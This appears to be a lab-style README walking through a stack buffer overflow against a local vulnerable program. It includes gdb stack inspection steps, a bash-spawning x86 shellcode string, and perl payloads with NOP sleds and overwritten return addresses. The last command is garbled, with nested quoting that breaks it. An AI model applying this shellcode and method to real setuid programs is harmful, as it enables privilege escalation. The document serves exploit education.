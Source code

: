 
# BOF Attack demo


## step1: 
firstly we need to run the vuln with the gdb environment: 
```bash
gdb vuln
```
we need to dicover the layout of the stack so we need firstly to define a breakpoint then we need to define a telescope function to see the content of the stack every time 

```bash 
b 21 // the line just before the vuln instruction 
define hook-stop 
 >x/40x $esp
 >end
```
then we need to see the changes in the memory based on this input 

```Bash
r `perl -e 'print 40x"A"'`
n
n
```
we notice here some special values that we have an interest to overwrite them, after reading the vuln source code we notice that we need to bypass the if statement related to the size as well as the uid 
we can put as a length 3 for example, the most important that we want to inject a shellcode

I've found this in the internet 
\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80

I can just add it to my input and adjust the padding so I can overwrite this perfectly and then we need to modify the return address to sth point to the shellcode 

in my case this is the input that fulfill all the requirements above 
``` bash 
perl -e 'print "\x90"x15 . "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"."\x90"x35 . "\xc0\xdf\x9e\xff" . "\x4a\xf8" . "\x03"x7'
```


## step2

we need to fit the output above to the real C environment and we need as well to execute it with the runner 
``` bash 
env - gdb runner 
``` 
and then we need to type the following commands 
```gdb
unset env LINES 
unset env COLUMNS 
b 24 
define hook-stop
>p/x $esp 
>end
r `perl -e 'print 130x"A"'`
n
```

then we store the address of the esp 


after obtaining the real esp we need to calculate the offset which is the new_esp - old_esp 

then we add this value to the last return address and run the command 

in my case this is the final input 

```bash
perl -e 'print "\x90"x15 . env - PWD=$PWD ./runner `perl -e 'print "\x90"x15 . "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\
x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"."\x90"x35 . "\x90\x45\xcb\xff" . "\xa3\x86" . "\x03"x7'`
```


